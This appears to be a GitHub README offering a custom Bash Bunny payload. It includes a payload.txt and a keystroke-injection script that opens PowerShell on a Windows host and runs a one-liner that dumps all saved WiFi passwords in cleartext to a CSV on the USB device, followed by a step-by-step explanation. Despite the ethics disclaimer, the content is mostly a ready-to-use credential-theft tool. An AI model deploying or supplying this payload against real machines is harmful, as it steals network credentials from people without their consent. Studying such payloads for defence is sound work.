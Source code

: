 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny**. 



## ⚠ Disclaimer

```
All projects and demonstrations in this portfolio are for educational and ethical cybersecurity research only. Every
technique and tool was used legally within approved environments, adhering to ethical hacking principles, legal
regulations, and responsible disclosure practices. Unauthorized use of these methods on systems without explicit
permission is illegal and strictly discouraged. Always follow legal guidelines and obtain proper authorization
before conducting security assessments.
```

## 🐇 Bash Bunny Network Key Dumper to CSV (Windows) 
**Payload.txt handles overall attack logic, device modes, and script execution.**
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

**Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).**
```ducky
# opens the run dialog and waits 500 milliseconds to ensure the run dialog is open
GUI r
DELAY 500

# launches powershell without loading a user profile and waits 500 milliseconds
STRING powershell -NoProfile 
ENTER
DELAY 500

# navigates to the Bash Bunny's USB storage assuming it's labeled BashBunny
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500

# navigates to the loot directory where extracted data will be stored and waits 500 milliseconds
STRING cd loot
ENTER
DELAY 500

# extract WiFi profiles and passwords and saves to a CSV file in loot
STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```
**Explanation of the PowerShell command:**
```
1. `netsh wlan show profiles` – Lists all saved WiFi profiles.
2. `Select-String ":(.+)$"` – Extracts profile names using regex.
3. `netsh wlan show profile name="$name" key=clear` – Retrieves the password for each profile.
4. `Select-String "Key Content\W+\:(.+)$"` – Extracts the WiFi password using regex.
5. `[PSCustomObject]@{ PROFILE_NAME=$name; PASSWORD=$pass }` – Formats the data into objects.
6. `Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"` – Saves the extracted credentials as a CSV file.
7. `exit` – Closes PowerShell.
```



## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)

